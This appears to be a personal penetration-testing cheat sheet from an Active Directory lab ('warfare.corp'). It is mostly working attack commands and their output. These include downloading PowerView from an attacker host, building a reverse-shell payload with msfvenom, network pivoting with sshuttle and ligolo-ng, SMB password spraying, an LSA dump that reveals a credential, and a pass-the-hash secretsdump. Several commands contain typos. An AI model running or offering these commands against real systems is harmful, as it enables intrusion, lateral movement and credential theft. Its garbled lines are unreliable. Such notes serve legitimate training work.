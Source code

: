 # Download file
	run in powershell -> iwr http://10.10.10.10:8000/PowerView.ps1 -OutFilew C:\Windows\Temp\PowerView.ps1

 	run in cmd -> certutile -urlcache -split -f http://10.10.10.10:8080/PowerView.ps1 PowerView.ps1

# mfsvenom

	msfvenom --platform windows -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=9999 -f exe -o rev.exe

# Pivoting

Sshuttle Command:

	sshuttle -r user@remote_host:2222 192.168.98.0/24 
	sshuttle -r user@remote_host 192.168.98.0/24 

	192.168.98.0/24 -> get from check ifconfig when see 2 adapter
	
	after shuttle
	
	nmap -sC -sV 192.168.98.5 -> IP for Pivoting

ligolo-ng

	#Attacker Machine, download proxy & agent :
	
	#Proxy
	wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz
	tar -xvzf ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz

	#Agent
	wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz
	tar -xvzf ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz

	Setup the ligolo-ng proxy in the attacker machine & ligolo-ng in the victim machine.

	# Attacker Machine
	sudo ip tuntap add user kali mode tun ligolo

	#Delete the 192.168.98.0/24 IP Range from the tun0 interface :
	sudo ip route del 192.168.98.0/24 dev tun0
	#Up the ligolo interface :
	sudo ip link set ligolo up
	#Add 192.168.98.0/24 IP range to the ligolo interface :
	sudo ip route add 192.168.98.0/24 dev ligolo

	Confirm the route on your attacker machine.

	ip route

	Start the proxy on the attacker server
	./proxy -selfcert -laddr 0.0.0.0:443

	Transfer the agent on the victim machine & start the connection
	#Replace this with your attacker IP address.
	./agent -connect 10.10.200.124:443 -ignore-cert

	session
	list_tunnels
	start

SSH Pivoting

	ssh -D 8088 privilege@192.168.80.10
	netstat -ano | grep 8088




# Firefox Find Information

	ls -la .mozilla/
	cd .mozilla/firefox/
	# The filename may vary on your infrastructure, identify & use accordingly
	cd b2rri1qd.default-release
	
	sqlite3 places.sqlite
	.tables
	select * from moz_bookmarks;

# SMB

SMB Bruteforce IP List with one username and password

	for i in 2 15 30 120; do crackmapexec smb "192.168.98.$i" -u "john" -p "User1@#$%6" ; done

SMB check information 

	crackmapexec smb 192.168.98.2

	for i in 2 15 30 120; do crackmapexec smb "192.168.98.$i" sleep 10; done

SMB LSA 

	crackmapexec smb 192.168.98.30 -u john -p User1@#$%6 --lsa

	Output: 
		SMB         192.168.98.30   445    MGMT             			corpmngr@child.warfare.corp:User4&*&*

	



# Error NTP with kerberous Attack AD

	sudo apt update
	sudo apt install ntpdate
	timedatectl 
	timedatectl set-ntp true
	reboot
	sudo systemctl start ntp
	sudo systemctl status ntp


# AD PowerView

	
	# Get-AdForest 
	
	
	ApplicationPartitions : {DC=DomainDnsZones,DC=warfare,DC=corp, DC=DomainDnsZones,DC=child,DC=warfare,DC=corp, 
	                        DC=ForestDnsZones,DC=warfare,DC=corp}
	CrossForestReferences : {}
	DomainNamingMaster    : dc01.warfare.corp
	Domains               : {child.warfare.corp, warfare.corp}
	ForestMode            : Windows2016Forest
	GlobalCatalogs        : {dc01.warfare.corp, cdc.child.warfare.corp}
	Name                  : warfare.corp
	PartitionsContainer   : CN=Partitions,CN=Configuration,DC=warfare,DC=corp
	RootDomain            : warfare.corp
	SchemaMaster          : dc01.warfare.corp
	Sites                 : {Default-First-Site-Name}
	SPNSuffixes           : {}
	UPNSuffixes           : {}



	PS C:\Windows\Temp> net localgroup Administrators 
	net localgroup Administrators
	Alias name     Administrators
	Comment        Administrators have complete and unrestricted access to the computer/domain
	
	Members
	
	-------------------------------------------------------------------------------
	Administrator
	corpmngr


	# Get-ADTrust -Filter *
	Direction               : BiDirectional -> communication Both ways
	DisallowTransivity      : False
	DistinguishedName       : CN=warfare.corp,CN=System,DC=child,DC=warfare,DC=corp
	ForestTransitive        : False
	IntraForest             : True
	IsTreeParent            : False
	IsTreeRoot              : False
	Name                    : warfare.corp -> parent domain name
	ObjectClass             : trustedDomain
	ObjectGUID              : 59bbc30c-d218-495f-a48c-b728a42eb732
	SelectiveAuthentication : False
	SIDFilteringForestAware : False
	SIDFilteringQuarantined : False
	Source                  : DC=child,DC=warfare,DC=corp -> child.warfare.corp
	Target                  : warfare.corp
	TGTDelegation           : False
	TrustAttributes         : 32
	TrustedPolicy           : 
	TrustingPolicy          : 
	TrustType               : Uplevel
	UplevelOnly             : False
	UsesAESKeys             : False
	UsesRC4Encryption       : False



	# Get-DomainTrust -Filter *
	
	
	SourceName      : child.warfare.corp -> for our source
	TargetName      : warfare.corp
	TrustType       : WINDOWS_ACTIVE_DIRECTORY
	TrustAttributes : WITHIN_FOREST
	TrustDirection  : Bidirectional -> communicate
	WhenCreated     : 1/17/2025 2:30:03 PM
	WhenChanged     : 4/10/2025 12:30:34 PM

 	** net user /dom
  	** net group /dom

# Formula Child to Parent

	admin privilige on child machince
 	krbtgthash

# Impacket
	impacket-secretsdump child/corpmngr@192.168.98.120 -hashes :4cb3933610b827a281ec479031128cc6 -> using this when you know corpmnrg has a path of administrator local (check with "net localgroup Administrators")


